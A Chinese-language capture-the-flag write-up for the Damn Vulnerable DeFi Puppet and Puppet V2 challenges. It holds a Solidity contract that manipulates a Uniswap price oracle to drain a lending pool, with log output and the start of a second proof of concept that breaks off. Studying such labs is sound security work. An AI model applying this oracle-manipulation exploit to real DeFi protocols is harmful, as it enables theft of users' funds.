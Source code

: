 ```
    address recovery;
    constructor(
        DamnValuableToken _token,
        PuppetPool _lendingPool,
        IUniswapV1Exchange _uniswapV1Exchange,
        address _recovery 
    ) payable {
        token = _token;
        lendingPool = _lendingPool;
        uniswapV1Exchange = _uniswapV1Exchange;
        recovery = _recovery;
    }
    function attack(uint exploitAmount) public {
        uint tokenBalance = token.balanceOf(address(this));
        token.approve(address(uniswapV1Exchange), tokenBalance);
        console.log("before calculateDepositRequired(amount)",lendingPool.calculateDepositRequired(exploitAmount));
        uniswapV1Exchange.tokenToEthTransferInput(tokenBalance, 1, block.timestamp, address(this));
        console.log(token.balanceOf(address(uniswapV1Exchange)));
        console.log("after calculateDepositRequired(amount)",lendingPool.calculateDepositRequired(exploitAmount));
        lendingPool.borrow{value: 20e18}(
            exploitAmount,
            recovery
        );
    }
    receive() external payable {
    }
}
  before calculateDepositRequired(amount) 200000000000000000000000
  after calculateDepositRequired(amount) 19664329888798200000
```

### Puppet V2

[題目](https://www.damnvulnerabledefi.xyz/challenges/puppet-v2/): 上一個貸款池的開發者似乎吸取了教訓，並發布了新版本。現在，他們使用Uniswap v2交易所作為價格預言機，並搭配推薦的實用庫。這樣應該足夠了吧？你開始時有20 ETH和10000 DVT代幣的餘額。該池子有一百萬DVT代幣的資金面臨風險！將池子中的所有資金救出，並將它們存入指定的recovery 錢包。

過關條件:
- lendingPool 的DVT代幣為0
- 將所有DVT轉到 recovery 錢包

解題:
- 這關oracle改成使用 Uniswap v2, 不過 getReserves 跟取balance是一樣的意思,存在操控的風險

[POC](./damn-vulnerable-defi/test/puppet-v2/PuppetV2.t.sol) : 
```

    // Fetch the price from Uniswap v2 using the official libraries
    function (uint256 amount) private view returns (uint256) {
        (uint256 reservesWETH, uint256 reservesToken) =
            UniswapV2Library.getReserves({factory: _uniswapFactory, tokenA: address(_weth), tokenB: address(_token)});

        return UniswapV2Library.quote({amountA: amount * 10 ** 18, reserveA: reservesToken, reserveB: reservesWETH});
    }
```
- 透過 swapExactTokensForTokens 把 player 的 DVT全部換成 WETH, 就可以降低 DVT 價格
```
    function test_puppetV2() public checkSolvedByPlayer {

        token.approve(address(uniswapV2Router), type(uint256).max);
        address[] memory path = new address[](2);
```